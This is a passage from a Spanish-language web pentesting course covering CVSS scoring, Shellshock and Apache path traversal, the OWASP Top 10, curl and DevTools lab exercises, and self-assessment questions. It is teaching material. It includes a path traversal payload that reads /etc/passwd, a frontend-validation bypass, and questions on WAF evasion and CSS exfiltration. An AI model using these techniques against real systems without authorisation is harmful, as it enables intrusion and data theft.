#### Escala de Severidad Cualitativa CVSS v3.1

| Rango de Puntuación Base | Severidad Cualitativa | Implicación Operativa |
|---|---|---|
| **0.0** | Ninguna (*None*) | Sin impacto medible sobre la seguridad. |
| **0.1 – 3.9** | **Baja (*Low*)** | Impacto mínimo; requiere condiciones complejas o privilegios elevados. |
| **4.0 – 6.9** | **Media (*Medium*)** | Riesgo relevante; afecta a un subconjunto de usuarios o requiere interacción. |
| **7.0 – 8.9** | **Alta (*High*)** | Compromiso severo de confidencialidad, integridad o disponibilidad; suele ser explotable remotamente. |
| **9.0 – 10.0** | **Crítica (*Critical*)** | Explotación remota sin privilegios ni interacción que conduce a Ejecución Remota de Código (RCE) o toma de control total del servidor. |

#### Métricas Temporales y Ambientales
- **Métricas Temporales**: Reflejan factores que cambian con el tiempo, como la madurez del código de explotación, la disponibilidad de una solución y la confianza del informe. Modifican el resultado temporal, no el `Base Score`.
- **Métricas Ambientales**: Permiten a los equipos de ciberseguridad ajustar el resultado según el contexto específico de su organización, por ejemplo, el valor de los activos o los controles compensatorios.

### 15.3 Vulnerabilidades en Servidores Web y Componentes de Infraestructura

Las vulnerabilidades de una aplicación no se limitan a los fallos en el código desarrollado; frecuentemente se originan en el propio servidor web o en los componentes auxiliares del backend:

- **Vulnerabilidades en Servidores Web (Capa Perimetral TCP 80/443)**:
  - Dado que los servidores web procesan directamente peticiones de clientes no autenticados, los fallos en el análisis sintáctico de cabeceras o rutas representan el riesgo más inmediato.
  - *Ejemplo histórico emblemático: Shellshock (CVE-2014-6271)*: Vulnerabilidad en GNU Bash que permitía a atacantes remotos ejecutar comandos arbitrarios en servidores Apache que utilizaban scripts CGI. Al inyectar una declaración de función maliciosa dentro de cabeceras HTTP estándar (como `User-Agent` o `Referer`), el servidor Apache pasaba las cabeceras como variables de entorno a Bash, que las ejecutaba de inmediato sin requerir credenciales (CVSS v2 10.0 / CVSS v3 9.8 Crítico).
  - *Vulnerabilidades de Path Traversal en Servidores Web*: Como el fallo CVE-2021-41773 en Apache HTTP Server 2.4.49, que permitía leer archivos fuera del documento raíz mediante secuencias de ruta no normalizadas (`/%2e%2e/%2e%2e/etc/passwd`).
- **Vulnerabilidades en Servicios Internos del Backend**:
  - Motores de bases de datos, colas de mensajería (RabbitMQ) y cachés (Redis/Memcached).
  - Generalmente no deben exponerse a Internet. Si un atacante logra penetrar el perímetro exterior o aprovecha un fallo de SSRF, la explotación de estos servicios internos le permite escalar privilegios hacia el sistema operativo anfitrión y pivotar lateralmente en la red corporativa.

---

## 16. Mapa metodológico y mapa de riesgos (OWASP Top 10)

El proyecto **OWASP (Open Worldwide Application Security Project)** publica periódicamente el estándar de facto que categoriza los riesgos más prevalentes en aplicaciones web:

```mermaid
mindmap
  root((OWASP Top 10))
    A01: Control de Acceso Roto
      IDOR / BOLA
      Bypass de autorización
    A02: Fallos Criptográficos
      Datos en claro
      Cifrado débil
    A03: Inyecciones
      SQL Injection
      Command Injection
      Cross-Site Scripting
    A04: Diseño Inseguro
      Falta de controles en arquitectura
    A05: Configuración Insegura
      Credenciales por defecto
      Puertos expuestos
    A06: Componentes Vulnerables
      Librerías obsoletas
    A07: Fallas de Identificación
      Ataques de fuerza bruta
      Mala gestión de sesión
    A08: Fallos de Integridad de Software y Datos
      Dependencias comprometidas
      Actualizaciones no verificadas
    A09: Fallos de Registro y Monitorización
      Auditoría insuficiente
      Alertas ausentes
    A10: Falsificación de Peticiones del Servidor
      SSRF
      Acceso a servicios internos
  ```

A lo largo de este recurso formativo, abordaremos sistemáticamente cada una de estas categorías, iniciando en el siguiente capítulo con el estudio de **Bases de Datos Relacionales y SQL**, base indispensable para comprender las **Inyecciones SQL (SQLi)**.

---

## Referencia de prácticas avanzadas

Un pentester profesional debe dominar las herramientas estándar del sistema operativo antes de recurrir a suites automatizadas. Las instrucciones de esta sección son referencias conceptuales para otros entornos; para una ejecución reproducible y local utiliza la [guía del laboratorio](./lab/README.md). El host `app.example.com` representa un objetivo autorizado de ejemplo y no debe sustituirse por un sistema de terceros.

### Ejercicio 1: Resolución DNS manual con `dig` o `host`
Comprueba la resolución de nombres hacia el host de tu laboratorio:

```bash
dig +short app.example.com
```
O utilizando `host`:
```bash
host app.example.com
```

### Ejercicio 2: Inspección de conexión TCP y Handshake TLS con `openssl`
Verifica la negociación criptográfica y el certificado X.509 presentado por el servidor web:

```bash
openssl s_client -connect app.example.com:443 -brief
```

Observa:
- Versión de TLS acordada (`TLSv1.3` o `TLSv1.2`).
- Suite de cifrado negociada (ej. `TLS_AES_256_GCM_SHA384`).
- Validación de la cadena de confianza del certificado.

### Ejercicio 3: Inspeccionar cabeceras de respuesta con `curl -I`
El modificador `-I` (o `--head`) solicita únicamente las cabeceras HTTP emitidas por el servidor:

```bash
curl -I https://app.example.com/
```

Salida esperada (ejemplo):
```http
HTTP/1.1 200 OK
Date: Sun, 06 Sep 2026 23:30:00 GMT
Server: Apache/2.4.58 (Debian)
Content-Type: text/html; charset=UTF-8
Set-Cookie: session=XYZ123; Path=/; Secure; HttpOnly; SameSite=Strict
```

### Ejercicio 4: Observar la transacción completa en modo depuración (`curl -v`)
El modificador `-v` (*verbose*) permite visualizar el ciclo de red íntegro:

```bash
curl -v -X GET "https://app.example.com/admin/report?id=42&format=pdf"
```

Interpretación de la salida:
- Líneas con `*`: Resolución DNS, conexión TCP y apretón de manos TLS.
- Líneas con `>`: Petición HTTP transmitida por el cliente hacia el servidor.
- Líneas con `<`: Respuesta HTTP emitida por el servidor web hacia el cliente.

### Ejercicio 5: Enviar peticiones POST estructuradas en JSON con cookies
Recrea la petición HTTP de nuestro mapa didáctico directamente desde la terminal:

```bash
curl -i -X POST "https://app.example.com/admin/report?id=42&format=pdf" \
  -H "Host: app.example.com" \
  -H "Content-Type: application/json" \
  -b "session=q8w9Ce0r1; role=guest" \
  -d '{"action":"export","owner":42}'
```

Observa cómo `curl` te permite definir arbitrariamente cada cabecera, cookie y byte del cuerpo sin ninguna restricción del navegador.

### Ejercicio 6: Demostración del comportamiento del Fragmento (`#`) en DevTools
1. Abre tu navegador web e ingresa a las Herramientas de Desarrollador (**F12**).
2. Dirígete a la pestaña **Red (Network)** y activa la casilla **Conservar registro (Preserve log)**.
3. Navega en la barra de direcciones a:
   ```text
   https://app.example.com/admin/report?id=42&format=pdf#resumen
   ```
4. Selecciona la petición capturada en la pestaña de Red e inspecciona la pestaña **Cabeceras (Headers)**.
5. **Comprobación**: Observa que la ruta solicitada en la cabecera es estrictamente `/admin/report?id=42&format=pdf`. El fragmento `#resumen` **no aparece en la petición transmitida**.
6. Dirígete a la pestaña **Consola (Console)** y escribe:
   ```javascript
   window.location.hash
   ```
   Comprueba que el fragmento `"#resumen"` vive exclusivamente en la memoria del navegador.

### Ejercicio 7: Modificación del DOM para eludir validaciones de frontend
1. En un formulario web con un campo de texto restringido por `maxlength="5"`, haz clic derecho sobre el campo y selecciona **Inspeccionar**.
2. En la pestaña **Elementos (Elements)** de DevTools, localiza el atributo `maxlength="5"` y bórralo o cámbialo a `maxlength="500"`.
3. Introduce una cadena larga de prueba e intenta enviar el formulario.
4. **Reflexión defensiva**: Si el backend no valida la longitud en el servidor, procesará la entrada sin objeción, confirmando que las validaciones del cliente no son controles de seguridad.

### Ejercicio 8: Inspección de bundles JavaScript y detección de Source Maps en DevTools
1. Abre las Herramientas de Desarrollador (**F12**) en tu navegador.
2. Dirígete a la pestaña **Fuentes (Sources)** o **Depurador (Debugger)**.
3. Examina el árbol de archivos bajo el dominio de la aplicación.
4. Busca directorios llamados `webpack://` o extensiones terminadas en `.js.map`.
5. Si los *source maps* están expuestos, localiza la carpeta original `src/` y observa cómo el navegador reconstruye los componentes originales (ej. `LoginComponent.tsx`, `adminRoutes.ts`), permitiéndote auditar la lógica original sin minificación.

### Ejercicio 9: Interacción y análisis de APIs REST estructuradas vía `curl`
Interactúa con un endpoint de API REST simulado consultando recursos y analizando códigos de estado:

```bash
# Petición GET para consultar un recurso
curl -s -i -X GET "https://jsonplaceholder.typicode.com/posts/1"

# Petición POST enviando un cuerpo estructurado en JSON
curl -s -i -X POST "https://jsonplaceholder.typicode.com/posts" \
  -H "Content-Type: application/json; charset=UTF-8" \
  -d '{"title":"Auditoria Web","body":"Prueba de API REST","userId":1}'
```

Observa el código `201 Created` en la respuesta del `POST` y cómo el servidor retorna el objeto recién instanciado con su nuevo identificador.

### Ejercicio 10: Consulta e interpretación de un vector CVSS v3.1 en la base de datos NVD
1. Ingresa a la base de datos oficial del NIST: [https://nvd.nist.gov](https://nvd.nist.gov).
2. En la barra de búsqueda introduce un CVE de servidor web (ej. `CVE-2021-41773`).
3. Localiza la sección **CVSS v3.1 Severity and Metrics**.
4. Examina la cadena del vector:
   ```text
   CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
   ```
5. Desglosa cada métrica:
   - `AV:N`: Vector de ataque Network (remoto).
   - `AC:L`: Complejidad baja (no requiere condiciones especiales).
   - `PR:N`: Cero privilegios requeridos.
   - `UI:N`: Cero interacción del usuario.
   - `S:U`: Alcance Unchanged.
   - `C:H`: Impacto de Confidencialidad Alto (lectura arbitraria de archivos).
6. Comprende por qué la puntuación base resultante es **7.5 Alta**.

---

## Preguntas de autoevaluación

1. ¿Por qué una aplicación web dinámica presenta una superficie de ataque sustancialmente mayor que un sitio web estático?
2. Explica la diferencia técnica entre una aplicación web y una aplicación nativa de sistema operativo en términos de su exposición perimetral a ataques cibernéticos.
3. En una arquitectura monolítica clásica de servidor único (LAMP), ¿cuál es la implicación de seguridad si un atacante consigue una vulnerabilidad de Inclusión Local de Archivos (LFI) o RCE?
4. Si un atacante inyecta etiquetas HTML en un foro pero los filtros de la aplicación bloquean cualquier ejecución de JavaScript, ¿puede aun así considerarse un riesgo de seguridad? Explica dos vectores de ataque basados en HTML Injection.
5. ¿Cómo puede un atacante exfiltrar un token CSRF o una contraseña almacenada en el valor de un `<input>` mediante inyección de hojas de estilo CSS sin ejecutar JavaScript?
6. ¿Por qué almacenar tokens JWT de sesión en `localStorage` representa un riesgo de seguridad mayor que almacenarlos en cookies con el atributo `HttpOnly`?
7. Si un parámetro viaja en la URL con doble codificación (`%2527`), ¿cómo puede utilizarse esta técnica para eludir un cortafuegos de aplicaciones web (WAF)?
8. ¿Por qué el cifrado TLS no protege a una aplicación web contra vulnerabilidades como Inyección SQL o Cross-Site Scripting (XSS)?
9. ¿Cuál es la diferencia estructural y de seguridad entre un servicio web basado en **SOAP** y una API de estilo arquitectónico **REST**? ¿Qué vulnerabilidad crítica está fuertemente ligada a parsers XML en servicios SOAP?
10. ¿Qué representa la métrica *Scope (Alcance)* en el estándar de puntuación de vulnerabilidades CVSS v3.1 y qué diferencia a una vulnerabilidad `Scope: Changed` de una `Scope: Unchanged`?
11. Explica qué vulnerabilidad de configuración en NGINX se conoce como *Alias Traversal / Off-by-slash* y cómo puede aprovecharse para leer archivos del servidor.
12. ¿Por qué el fragmento de una URL (`#seccion`) no llega jamás al servidor web y en qué tipo de vulnerabilidad exclusiva del cliente puede verse involucrado?

---

[Volver al Índice de Pentesting Web](../README.md) | [Siguiente Capítulo: Fundamentos de SQL](../02-fundamentos-sql/README.md)
